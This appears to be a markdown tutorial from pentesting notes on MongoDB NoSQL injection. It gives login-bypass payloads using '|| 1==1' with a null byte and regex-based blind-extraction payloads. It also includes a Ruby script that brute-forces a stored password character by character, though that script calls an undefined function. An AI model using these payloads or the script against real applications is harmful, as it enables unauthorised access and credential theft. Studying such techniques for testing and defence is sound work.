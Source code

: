# **MongoDB Injection:**
  
  ```bash
     In this section we are going to learn how to inject into MongoDB where we are going to be using the (in)famous ' or 1=1 --
  ```

- From the LDAP injection we have learnt that we need two things to bypass such login interfaces
  - An always true condition
  - A way to correctly terminate the NoSQL query.

- From the MongoDB documentation one can find that the SQL **or 1=1** translates to **|| 1==1**
  (**Note:** the double =)
  - Then by pocking around one can see that a NULL BYTE will prevent MongoDB from using the rest of the query.
  - In some cases one can also use comments **//** or **<!--** to comment out the end of the query.

  - Now having such information, you proceed to analyse the traffic then play around with the payload.
    - https://url?username=admin&password=admin&submit=Submit %7C%7C%201%3D%3D1%00

  - Knowing that MongoDB probably has a password field, one can play around with the application to confirm that.
  - We can take an example where if there was a password that is `password`, we would use the below payload to inject and perform the below tests.
    - Payload: `' && this.password.match(/$PAYLOAD/)NULLBYTE`
      - **Note:** For the payload you have to url encode the `&&` which are `%26%26`.
      - Where inside the brackets ***`(/$PAYLOAD/)`*** we are going to place our regular expressions for testing.
      - **$PAYLOAD**:
        - **`p`** : This one will able to see results because the password contains a letter `p`
        - **`^p`** : This one will able to see results because the password starts with a letter `p`
        - **`e`** : This one will not return any results because tha password does not contain any character with a letter `e`
        - **`^pa.*$`** : This one will able to see results because the password starts with letters `pa`
    - **Note:** You can play around with the payloads, literally fuzz your way around.
    - Also do make sure to confirm the **`password field`**.
  - With this information we can now perform **blind injections** since we have two states, `True` and `False`, but this can be tiresome process to get a valid payload that will retrieve a whole password so the below ruby script will assist us in automating the fuzzing process.

  &nbsp;

  ```ruby
    # A basic script that will allow us to fuzz for NoSQL injections and retrieve passwords from a NoSQL database.

    # Include http library
    require 'httparty'

    # Variable for domain
    URL="url.com"

    # Function
    def inject?(str)
      send = HTTParty.get("http://#{URL}/?search=admin%27%20%26%26%20this.password.match(/#{str}/)%00")

      # Check if response returns data certain data to return 1475 / True else will return nill / Flase state
      return send.body =~ />admin</
    end

    #puts check?("a").inspect
    #puts check?("aaa").inspect
    # When the above are uncommented gives you the first output as 1475 and the other one as nil it means that it works you can proceed with the below code.

    # A basic script that will allow us to fuzz for NoSQL injections and retrieve passwords from a NoSQL database.


    # Fuzz from a to z, 0 to 9 and add a -, the benefit is that you can also add special characters.
    CHARSET = ('a'..'z').to_a+('0'..'9').to_a+['-']
    # Set password field as empty
    password = ""

    # While loop
    while true
      CHARSET.each do |c|
        puts "Fuzzing character ... ; #{c} for #{password}"
        test = password+c
        if check?("^#{test}.*$")
          password+=c
          puts password
          break
        end
      end
    end
  ```

  - **+1:** In case the password field does not exist for some records (since it's NoSQL database), it's always a good idea to ensure its presence by using ... ` && this.password && this.password.match(\$PAYLOAD\)NULLBYTE `

  - **`Challenge:`** You can create a python script that does this :smile:

  &nbsp;

  - More Resources on **NoSQL Injections**:
    - [SANS SEC642 NoSQL Injection](https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1542039176.pdf)
    - [Null Sweep: A NoSQL Injection Primer](https://nullsweep.com/a-nosql-injection-primer-with-mongo/)
    - [How to pull off a successful NoSQL Injection attack](https://medium.com/@fiddlycookie/nosql-injection-8732c2140576)
    - [NoSQL Injection Payloads (Look at this for further payload usecases)](https://book.hacktricks.xyz/pentesting-web/nosql-injection)